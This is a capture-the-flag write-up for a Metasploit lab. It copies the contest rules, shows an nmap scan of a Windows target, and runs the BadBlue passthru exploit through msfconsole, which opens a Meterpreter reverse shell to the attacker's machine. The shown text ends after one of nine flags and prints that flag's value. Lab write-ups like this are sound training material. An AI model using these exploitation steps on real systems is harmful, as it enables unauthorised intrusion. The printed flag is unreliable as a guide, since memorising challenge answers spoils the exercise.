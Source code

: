 # Metasploit CTF: [Dec 18 - Dec 22]

## Mission

### CTF Description:

The CTF is focused on exploiting vulnerable applications and windows components exploitation. Explore the services, applications on the running machine, identify the misconfiguration flaw then and leverage it to obtain a shell on the target. Once you have a shell, escalate privileges and perform Lateral movement to compromise the second machine on the network. 

### Objective:

Collect all nine flags.

### Level:

Beginner

### Instructions:

Click on RUN to start the lab (takes approximately 90s).

Click on LAB LINK to access the Kali GUI instance. The machine will have an interface with IP address 10.X.X.X. 

Target machine A and Target machine B should be located at the IP address 10.X.X.X. and 10.X.X.X. respectively. 

Once you compromise Target A, you should be able to exploit Target B.

Some flags can be identified by prefix flag*. Please read the flag description carefully to know the type of the flag. Also, CTF flags can be gained in any order.

All the tools required for solving the CTF are available on the Kali machine. Third-party opensource tools/scripts are present in the directory "/root/Desktop/tools"

For performing dictionary attack use the wordlist: /root/Desktop/wordlists/100-common-passwords.txt

### Practice Labs:


https://attackdefense.com/challengedetails?cid=2110

https://attackdefense.com/challengedetails?cid=1945

https://attackdefense.com/challengedetails?cid=2025


### Note: The lab has a one-hour timer for auto termination. Please keep saving your commands, snapshots, etc.

### Rules:

Capture and verify 9 flags

Once you verify the flags, email attackdefense@pentesteracademy.com with a short report on the process and the email you used to register on this website + your Twitter handle for winners' announcement.

Reply to our Twitter post to let us know you've submitted your report. 

This CTF contest will start on 0000hrs Dec 18, 2020, ET and end on 2359hrs Dec 22, 2020, ET.

The first person to capture all the flags gets an Ember Smart Mug + 1-month subscription + Pentester Academy T-shirt
Second and third to capture all the flags will get a 1-month subscription + Pentester Academy T-shirt

3 other participants who capture all the flags will be selected randomly to win a 1-month subscription These will be picked randomly from the remaining correct submissions coming in up to 2359hrs Dec 22, 2020, ET

Winners will be contacted on Dec 23-24, 2020

All decisions from our team will be final. 

## Notes

- **Target Machine IP Address 1** - 10.4.28.62
- **Target Machine IP Address 2** - 10.4.24.52


## nmap for 10.4.28.62

    root@attackdefense:~# sudo nmap -p- -vv -T4 -sC -sV 10.4.28.62 
    
    Discovered open port 3389/tcp on 10.4.28.62
    Discovered open port 135/tcp on 10.4.28.62
    Discovered open port 139/tcp on 10.4.28.62
    Discovered open port 445/tcp on 10.4.28.62
    Discovered open port 49666/tcp on 10.4.28.62
    Discovered open port 49671/tcp on 10.4.28.62
    Discovered open port 49667/tcp on 10.4.28.62
    Discovered open port 49672/tcp on 10.4.28.62
    Discovered open port 47001/tcp on 10.4.28.62
    Discovered open port 49665/tcp on 10.4.28.62
    Discovered open port 5985/tcp on 10.4.28.62
    Discovered open port 49664/tcp on 10.4.28.62
    Discovered open port 49669/tcp on 10.4.28.62
    Discovered open port 49668/tcp on 10.4.28.62
    PORT      STATE SERVICE       REASON          VERSION
    135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds? syn-ack ttl 125
    3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: ATTACKDEFENSE
    |   NetBIOS_Domain_Name: ATTACKDEFENSE
    |   NetBIOS_Computer_Name: ATTACKDEFENSE
    |   DNS_Domain_Name: AttackDefense
    |   DNS_Computer_Name: AttackDefense
    |   Product_Version: 10.0.17763
    |_  System_Time: 2022-04-05T20:54:01+00:00
    | ssl-cert: Subject: commonName=AttackDefense
    | Issuer: commonName=AttackDefense
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2022-04-04T20:47:11
    | Not valid after:  2022-10-04T20:47:11
    | MD5:   7a65 c0f5 d7ff 0b3f 1ad4 b186 97b9 bda4
    | SHA-1: 27da ab58 ab02 6e95 1dd8 85a0 6e7d 5eb0 716d b568
    | -----BEGIN CERTIFICATE-----
    | MIIC3jCCAcagAwIBAgIQUSybZHIlaoZI5vgHyTawZDANBgkqhkiG9w0BAQsFADAY
    | MRYwFAYDVQQDEw1BdHRhY2tEZWZlbnNlMB4XDTIyMDQwNDIwNDcxMVoXDTIyMTAw
    | NDIwNDcxMVowGDEWMBQGA1UEAxMNQXR0YWNrRGVmZW5zZTCCASIwDQYJKoZIhvcN
    | AQEBBQADggEPADCCAQoCggEBAK7elXUkHlUba5sM1IvgN6/ktXXXR+Tff47/NxQk
    | 77QmSuwXm1TZrC3Jc98NLTpraKsEP4gUh7fxVuXdDmwrURdNJnkbnOv6P1HekNvi
    | IpuBGB+x6rDAv4/DclCXTNxtCADGXAxdQ8yAVPmfzRbFmtg6LGEnpwNFDey9yrkj
    | Tjp6YoruBgJcr4sf+Ospt0qaEIadYTlzhJeNLg6pWjP68wG2EUSwXEOY+Gd6vSsQ
    | QyRHwrNvxOIo7/DFCvcFNx5P8/BgFXIGdvFxdjjnE46Lp96OZhESExJaOasSAM8U
    | rMPTDizKPxK3AKk2EP4gtE0pfBiyKD+Bpi9RRmP17WIGGqkCAwEAAaMkMCIwEwYD
    | VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IB
    | AQA+bsLrWID0K0PxjIAYHxNzDHR46IXzxRM3P1f5OfgT7/dZSvb+44auMrEdl+d8
    | WF53ksQs4gbt8/EzKbbkkYDUbgC8beiifWyb8/9j9r/xvvfifqjqdldikDMrJSyB
    | J6dQLDtdOG01dkSD0P4SgKLOwvblc86YNElThMPiq2f1jULHj+71mgwJ3milYo/0
    | sNDAIRHc6oc7Z4d/IKHL9LM/5nCNzm507r51sJJrBVuOoWK2tk6EGJFQe81CNIFQ
    | yRA3jIpjsGNrIylnXhxVnPj+mqqJqluI3XoBr3YmSo5vDyCTRXF+O76yvfxY+W/m
    | 0+POy6um38GoEzEYw/yp3wEg
    |_-----END CERTIFICATE-----
    |_ssl-date: 2022-04-05T20:54:08+00:00; 0s from scanner time.
    5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49671/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    49672/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 0s, deviation: 0s, median: 0s
    | p2p-conficker: 
    |   Checking for Conficker.C or higher...
    |   Check 1 (port 26438/tcp): CLEAN (Couldn't connect)
    |   Check 2 (port 28184/tcp): CLEAN (Couldn't connect)
    |   Check 3 (port 42674/udp): CLEAN (Timeout)
    |   Check 4 (port 23419/udp): CLEAN (Failed to receive data)
    |_  0/4 checks are positive: Host is CLEAN or ports are blocked
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2022-04-05T20:54:05
    |_  start_date: N/A

## nmap for 10.4.24.52

No connections open when scanning from Kali Box

## msfconsole 10.4.28.62

    msf6 exploit(windows/http/badblue_passthru) > run

    [*] Started reverse TCP handler on 10.10.3.2:4444 
    [*] Trying target BadBlue EE 2.7 Universal...
    [*] Sending stage (175174 bytes) to 10.4.28.62
    [*] Meterpreter session 1 opened (10.10.3.2:4444 -> 10.4.28.62:49785) at 2022-04-06 02:29:49 +0530

    meterpreter > getuid
    Server username: ATTACKDEFENSE\httpuser

## Flags

### Flag 1

    meterpreter > dir
    Listing: C:\Users\httpuser\Desktop
    ==================================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100666/rw-rw-rw-  282   fil   2020-12-14 10:58:59 +0530  desktop.ini
    100666/rw-rw-rw-  32    fil   2020-12-14 11:56:27 +0530  flag1.txt

    meterpreter > cat flag1.txt 
    ba9aa248c9c28a050a9780a455c97a64